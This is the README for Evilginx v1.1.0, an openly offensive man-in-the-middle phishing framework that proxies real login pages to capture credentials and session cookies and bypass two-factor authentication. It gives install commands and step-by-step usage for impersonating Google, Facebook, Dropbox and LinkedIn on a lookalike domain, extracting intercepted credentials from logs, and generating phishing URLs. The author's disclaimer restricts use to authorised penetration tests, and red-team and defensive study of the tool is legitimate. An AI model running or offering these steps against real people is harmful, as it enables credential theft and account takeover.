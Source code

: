 ## Evilginx v.1.1.0

![Evilginx](/img/evilginx-title.png?raw=true "Evilginx")

**THIS VERSION IS OBSOLETE. PLEASE USE THE LATEST VERSION!**

**EVILGINX 2: https://github.com/kgretzky/evilginx2**

Evilginx is a man-in-the-middle attack framework used for phishing credentials and session cookies of any web service. It's core runs on Nginx HTTP server, which utilizes `proxy_pass` and `sub_filter` to proxy and modify HTTP content, while intercepting traffic between client and server.

You can learn how it works and how to install everything yourself on my blog:

First post slightly outdated now: [Evilginx - Advanced Phishing With Two-factor Authentication Bypass](https://breakdev.org/evilginx-advanced-phishing-with-two-factor-authentication-bypass/)

Evilginx 1.0 Update: [Evilginx 1.0 Update - Up Your Game in 2FA Phishing](https://breakdev.org/evilginx-1-0-update-up-your-game-in-2fa-phishing)

Evilginx 1.1 Update: [Evilginx 1.1 Update](https://breakdev.org/evilginx-1-1-release/)

#### Disclaimer

I am aware that Evilginx can be used for very nefarious purposes. This work is merely a demonstration of what adept attackers can do. It is the defender's responsibility to take such attacks into consideration, when setting up defenses, and find ways to protect against this phishing method.
Evilginx should be used only in legitimate penetration testing assignments with written permission from to-be-phished parties.

#### Contributors Hall of Fame

[@poweroftrue](https://github.com/poweroftrue)

#### Installation

Evilginx provides an installation script `install.sh` that takes care of installing the whole package on any Debian wheezy/jessie machine, in fire and forget manner.

```
git clone https://github.com/kgretzky/evilginx
cd evilginx
chmod 700 install.sh
./install.sh
```

#### Usage

```
            _ _       _            
           (_) |     (_)           
  _____   ___| | __ _ _ _ __ __  __
 / _ \ \ / / | |/ _` | | '_ \\ \/ /
|  __/\ V /| | | (_| | | | | |>  < 
 \___| \_/ |_|_|\__, |_|_| |_/_/\_\
                 __/ |             
 by @mrgretzky  |___/          v1.0

usage: evilginx.py [-h] {setup,parse,genurl} ...

positional arguments:
  {setup,parse,genurl}
    setup               Configure Evilginx.
    parse               Parse log file(s).
    genurl              Generate phishing URL.

optional arguments:
  -h, --help            show this help message and exit
```

###### Setup

Enable or disable site configurations for use with Nginx server, using supplied Evilginx templates from `sites` directory.

```
usage: evilginx.py setup [-h] [-d DOMAIN] [-y]
                         (-l | --enable ENABLE | --disable DISABLE)

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Your phishing domain.
  -y                    Answer all questions with 'Yes'.
  -l, --list            List available supported apps.
  --enable ENABLE       Enable following site by name.
  --disable DISABLE     Disable following site by name.
```

List available site configuration templates:
```
python evilginx.py setup -l

Listing available supported sites:

 - dropbox (/root/evilginx/sites/dropbox/config)
   subdomains: www
 - google (/root/evilginx/sites/google/config)
   subdomains: accounts, ssl
 - facebook (/root/evilginx/sites/facebook/config)
   subdomains: www, m
 - linkedin (/root/evilginx/sites/linkedin/config)
   subdomains: www
```

Enable google phishing site with preregistered phishing domain `not-really-google.com`:
```
python evilginx.py setup --enable google -d not-really-google.com
```

Disable facebook phishing site:
```
python evilginx.py setup --disable facebook
```

###### Parse

Parse Nginx logs to extract intercepted login credentials and session cookies. Logs, by default, are saved in `logs` directory, where `evilginx.py` script resides.
This can be done automatically after you enable auto-parsing in the **Setup** phase.

```
usage: evilginx.py parse [-h] -s SITE [--debug]

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to parse logs for ('all' to parse logs
                        for all sites).
  --debug               Does not truncate log file after parsing.
```

Parse logs only for google site:
```
python evilginx.py parse -s google
```

Parse logs for all available sites:
```
python evilginx.py parse -s all
```

###### Generate URL

Generate phishing URLs that you can use in your Red Team Assessments.

```
usage: evilginx.py genurl [-h] -s SITE -r REDIRECT

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to generate link for.
  -r REDIRECT, --redirect REDIRECT
                        Redirect user to this URL after successful sign-in.
```

Generate google phishing URL that will redirect victim to rick'roll video on successful login:
```
python evilginx.py genurl -s google -r https://www.youtube.com/watch?v=dQw4w9WgXcQ

Generated following phishing URLs:

 : https://accounts.not-really-google.com/ServiceLogin?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ
 : https://accounts.not-really-google.com/signin/v2/identifier?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ
```
